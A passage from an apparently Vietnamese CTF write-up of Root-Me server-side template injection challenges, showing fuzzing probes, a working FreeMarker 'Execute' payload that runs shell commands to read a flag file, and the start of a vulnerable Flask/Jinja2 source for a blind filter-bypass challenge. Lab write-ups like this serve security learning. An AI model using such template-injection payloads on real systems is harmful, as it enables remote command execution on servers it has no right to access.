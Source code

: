 ### Phân tích

Như bài trên em bắt đầu bằng việc fuzz từng payload:

    ```
    {{7*7}}
    ${7*7}
    <%= 7*7 %>
    ${{7*7}}
    #{7*7}
    *{7*7}
    ```
    
Và thấy `${7*7}` trả về kết quả em mong muốn:

![](https://i.imgur.com/55wbtHy.png)

### Khai thác

Truy cập vào Hacktrick tìm payload và em tìm được payload: `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls -lap")}`

![](https://i.imgur.com/mRLvMFk.png)

Giờ chỉ cần cat file SECRET_FLAG.txt và lấy flag thuii

![](https://i.imgur.com/nZWDlEf.png)



## Python - SSTI contournement de filtres en aveugle

![](https://i.imgur.com/FLryaEM.png)

Link to chall: https://www.root-me.org/fr/Challenges/Web-Serveur/Python-SSTI-contournement-de-filtres-en-aveugle

### Phân tích

Vào chall em có giao diện: 

![](https://i.imgur.com/r14jvmV.png)

Đặc biệt là có thể tại được source code về:

![](https://i.imgur.com/BVKfJow.png)

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# Author             : Podalirius

import jinja2
from flask import Flask, flash, redirect, render_template, request, session, abort

mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:
```